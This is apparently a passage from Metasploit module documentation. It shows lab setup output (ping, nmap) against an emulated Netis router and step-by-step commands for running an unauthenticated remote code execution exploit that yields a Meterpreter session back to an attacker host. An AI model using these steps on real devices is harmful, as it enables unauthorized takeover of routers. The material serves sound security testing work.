 ```shell
^C
--- 192.168.1.254 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 1.297/5.979/11.713/4.316 ms
 # nmap 192.168.1.254
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 19:39 UTC
Nmap scan report for 192.168.1.254
Host is up (0.020s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
MAC Address: 00:E0:4C:81:96:C1 (Realtek Semiconductor)

Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```
You are now ready to test the module using the emulated router hardware on IP address 192.168.1.254

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/netis_unauth_rce_cve_2024_48456_and_48457`
- [x] `set rhosts <ip-target>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Linux Dropper>`
- [x] `exploit`

you should get a `Meterpreter` session.

```msf
msf exploit(linux/http/netis_unauth_rce_cve_2024_48456_and_48457) > info

       Name: Netis Router Exploit Chain Reactor (CVE-2024-48455, CVE-2024-48456 and CVE-2024-48457).
     Module: exploit/linux/http/netis_unauth_rce_cve_2024_48456_and_48457
   Platform: Linux
       Arch: mipsle
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-12-27

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Linux Dropper

Check supported:
  Yes
```